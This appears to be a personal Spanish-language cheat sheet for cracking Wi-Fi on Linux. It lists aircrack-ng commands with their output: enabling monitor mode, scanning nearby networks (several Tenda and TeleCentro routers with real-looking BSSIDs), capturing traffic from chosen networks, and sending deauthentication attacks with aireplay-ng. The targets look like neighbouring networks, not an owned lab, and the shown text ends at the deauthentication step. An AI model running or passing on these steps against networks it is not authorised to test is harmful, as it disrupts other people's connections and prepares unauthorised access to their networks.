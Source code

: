 ### Creackeando una red wifi con linux
https://esgeeks.com/cracking-claves-wifi-con-aircrack-ng/
https://esgeeks.com/formas-de-crear-diccionario-para-fuerza-bruta/


sudo airmon-ng

PHY	Interface	Driver		Chipset

phy1	wlp1s0		iwlwifi		Intel Corporation Wireless 8260 (rev 3a)
phy2	wlx20e01704b3f0	mt7601u		Ralink Technology, Corp. MT7601U
wlan0mon

 
sudo airmon-ng check kill
Run it as root

 
sudo airmon-ng check 
 
  

sudo airmon-ng start wlan0
sudo airmon-ng start wlan0mon

Killing these processes:

  PID Name
 1306 wpa_supplicant
22800 avahi-daemon
22808 avahi-daemon

 

sudo airodump-ng wlan0mon
sudo airodump-ng wlx20e01704b3f0

 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                                               
 E8:91:20:DD:1D:7C  -30       14        7    0   2  54e. WPA2 CCMP   PSK  z2                                                                                  
 CC:2D:21:58:82:48  -78       11       57    0   3  54e  WPA2 CCMP   PSK  Tenda_588248                                                                                         
 D8:32:14:51:06:20  -79       12        0    0   7  54e  WPA2 CCMP   PSK  Tenda_510620                                                                                         
 58:D9:D5:1C:FF:F8  -83        9        0    0  11  54e  WPA2 CCMP   PSK  Tenda_1CFFF8                                                                                         
 CC:2D:21:59:6B:D8  -84       13        2    0  10  54e  WPA2 CCMP   PSK  Tenda_596BD8                                                                                         
 50:0F:F5:D5:B5:28  -88        2       18    0   1  54e  WPA2 CCMP   PSK  Tenda_D5B528                                                                                          
 DA:D7:75:62:B0:64  -88        4        0    0  11  54e  OPN              TeleCentro Wifi                                                                                       
 D8:D7:75:62:AF:62  -88        3        0    0  11  54e  WPA2 CCMP   PSK  TeleCentro-af5d     

  
sudo airodump-ng -c 2 --bssid E8:91:20:DD:1D:7C --write MotoE2 wlan0mon
sudo airodump-ng -c 2 --bssid E8:91:20:DD:1D:7C --write MotoE2 wlx20e01704b3f0

sudo airodump-ng -c 11 --bssid D8:D7:75:62:AF:62 --write TeleAFD5 wlx20e01704b3f0
sudo airodump-ng -c 5 --bssid D8:32:14:50:91:50 --write Tenda_509150 wlx20e01704b3f0
sudo airodump-ng -c 3 --bssid CC:2D:21:58:82:48 --write Tenda_588248 wlx20e01704b3f0

 
aireplay-ng -0 10 –a 02:08:22:7E:B7:6F  -e EsGeeks wlan0mon
sudo aireplay-ng -0 10 -a E8:91:20:DD:1D:7C -e z2 wlan0mon
sudo aireplay-ng -0 10 -a E8:91:20:DD:1D:7C -e z2 wlx20e01704b3f0
sudo aireplay-ng -0 10 -a CC:2D:21:58:82:48 -e z2 wlx20e01704b3f0
